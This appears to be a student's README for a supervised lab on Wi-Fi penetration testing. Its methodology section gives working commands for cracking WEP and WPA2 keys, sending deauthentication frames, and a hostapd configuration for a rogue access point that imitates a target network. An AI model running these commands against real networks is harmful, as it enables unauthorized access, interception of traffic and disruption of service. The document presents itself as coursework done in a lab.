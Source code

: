 # Wireless Penetration Testing: WEP/WPA2 Cracking & Rogue AP Simulation
![Status](https://img.shields.io/badge/Status-Completed-green)  
![Tech](https://img.shields.io/badge/Tools-Aircrack--ng%20%7C%20Wireshark%20%7C%20Scapy-blue)  

## 📌 Overview  
This repository contains a **Wi-Fi Security project**, where I explored vulnerabilities in wireless networks, including:  
- Cracking WEP encryption  
- Cracking WPA2 encryption  
- Performing deauthentication attacks  
- Simulating rogue access points  

This project demonstrates **ethical hacking techniques** used in penetration testing for assessing and strengthening Wi-Fi security.  

---

## 📖 Table of Contents  
- [Key Topics Covered](#key-topics-covered)  
- [Files Included](#files-included)  
- [Tools & Technologies Used](#tools--technologies-used)  
- [Methodology](#methodology)  
- [Ethical Considerations](#ethical-considerations)  
- [Learning Outcomes](#learning-outcomes)     
- [Contact](#contact)
- [Acknowledgements](#acknowledgements)  

---

## 🛠 Key Topics Covered  
- **Cracking WEP Encryption**: Used `aircrack-ng` to recover WEP keys by analyzing captured IVs.  
- **Breaking WPA2-PSK Encryption**: Captured WPA2 handshake and used dictionary attacks.  
- **Deauthentication Attacks**: Exploited CVE-2019-16275 to disconnect clients from a Wi-Fi network.  
- **Rogue Access Point Attack**: Set up a fake AP and captured victim traffic.  

---

## 📂 Files Included  
| File Name | Description |  
|-----------|------------|  
| `captures/*` | All the required captures to execute this attack |  
| `scripts/deauth.py` | Python script for deauthentication attack |   
| `scripts/hostapd.txt` | Configuration file for creating a rogue AP | 
| `wordlists/passwords.txt` | Wordlist used for WPA cracking |  

---

## 🔧 Tools & Technologies Used  
- **Aircrack-ng Suite** (`Airmon-ng`, `Airodump-ng`, `Aircrack-ng`, `Aireplay-ng`)  
- **Wireshark** – Network packet analysis  
- **Scapy** – Packet manipulation & forging  
- **Python** – Scripting for automated attacks  
- **Linux CLI (Ubuntu VM)** – Running security tools 
- **TPLink TL-WN722N Wi-Fi Adapter** 

---

## 🔍 Methodology  

### **0️⃣ Environment Setup**

```bash
sudo apt update
sudo apt install -y aircrack - ng

sudo apt install wireshark

git clone https :// github . com / secdev / scapy . git
cd scapy
sudo python3 setup . py install

sudo apt update
sudo apt upgrade
sudo apt install -y realtek - rtl8188eus - dkms
```

```bash
iwconfig # Indentify the inteface of the wifi adapter

# replace < interface > with the interface of the wifi adapter
sudo ifconfig < interface > down
sudo airmon - ng check kill
sudo iwconfig < interface > mode monitor
sudo ifconfig < interface > up
iwconfig
# This enables monitor mode 
```

---

### **1️⃣ Cracking WEP Encryption**  
- Enabled **monitor mode** using `airmon-ng`.  
- Captured packets using `airodump-ng`.  
- Used **IVs** to decrypt the key with `aircrack-ng`.  

```bash
# Start monitor mode
sudo airmon-ng start wlan0

# Capture packets
sudo airodump - ng wlan0mon -w < dump file >

# Crack WEP keykey
aircrack - ng -n 64 -b <AP_MAC_address> <dump file>. pcap
```
- Add the key in wireshark to decrypt the packets. (Edit > Preferences > Protocols > IEEE 802.11 > Decryption keys.Make sure to choose the protocol as wep.)

### **2️⃣ Cracking WPA2 Encryption**  
- Captured **4-way handshake** using `airodump-ng`.  
- Used dictionary attack with `aircrack-ng`.  

```bash
# Capture handshake
sudo airodump - ng wlan0mon -w <dump_file > -c <channel>

# Crack WPA2 password
sudo aircrack - ng -a 2 -b < AP_MAC_address > -w <word_file> <dump_file> (I used passwords.txt as the word file) 
```
- 

### 3️⃣ Deauthentication Attack
- Used aireplay-ng to send deauthentication frames, disconnecting clients.
- Exploited CVE-2019-16275 for forced disconnection.

```bash
sudo aireplay-ng --deauth 100 -a <AP_MAC> -c <Client_MAC> wlan0mon
```

### 4️⃣ Rogue Access Point Attack
- Created a fake AP using hostapd to capture victim traffic.
- Used Wireshark to analyze captured packets.

```bash
#Create hostapd.conf and add the following lines
ctrl_interface=/var/run/hostapd
driver=nl80211
ssid=<target AP>
channel=<target channel>
hw_mode=g
ieee80211n=1
ieee80211w=2
auth_algs=< target algorithm >
wpa=< target WPA version >
wpa_key_mgmt=< target MGMT >
rsn_pairwise=< target paiwise >
wpa_passphrase=< target password >
```
```bash
sudo systemctl restart apache2
sudo hostapd hostapd.conf
```

---

## ⚖️ Ethical Considerations

⚠️ Disclaimer: This project was conducted in a controlled lab environment as part of an exercise in cybersecurity. Unauthorized Wi-Fi penetration testing is illegal without explicit permission. The purpose of this project was to understand security weaknesses and develop skills for ethical hacking and cybersecurity defense."

### Key ethical principles followed:

✅ Responsible Disclosure – Understanding vulnerabilities to help secure networks.
✅ No Unauthorized Testing – Experiments were performed in a controlled environment with instructor approval.
✅ Security Awareness – The findings from this project help reinforce best security practices for network protection.

## 🎯 Learning Outcomes

By completing this project I gained the following skills:

✅ Hands-on experience with Wi-Fi security – Analyzed encryption flaws in WEP and WPA2.
✅ Packet Sniffing & Analysis – Used Wireshark to capture and inspect wireless traffic.
✅ Cracking Encryption Keys – Learned how dictionary attacks and IV collection work against WPA2 and WEP.
✅ Ethical Hacking Techniques – Performed deauthentication attacks and rogue AP simulations.
✅ Understanding Countermeasures – Explored network defense strategies, including WPA3, VPNs, and intrusion detection.

---

### 📩 Contact
For any inquiries, feel free to reach out via:
📌 LinkedIn: www.linkedin.com/in/pranavs07

---

### 📚 Acknowledgements
Parts of this lab were originally written by Simon Thoustrup, Sigurd Hilbert Madsen and Frej Laursen
W¨urtz. Later on, parts of these exercises were re-written/edited by Kasper Rasmussen and then edited
by Davide Zanetti, Ghassan Karame, Luka Maliˇsa, Joel Reardon and Nikos Karapanos. Addition of the
deauthentication attack, has been done by Domien Schepers, while addition of the rogue access points and
latest editing/updating of all sections has been done by Evangelos Bitsikas. This project was completed under the supervision of Dr. Aanjhan Ranganathan.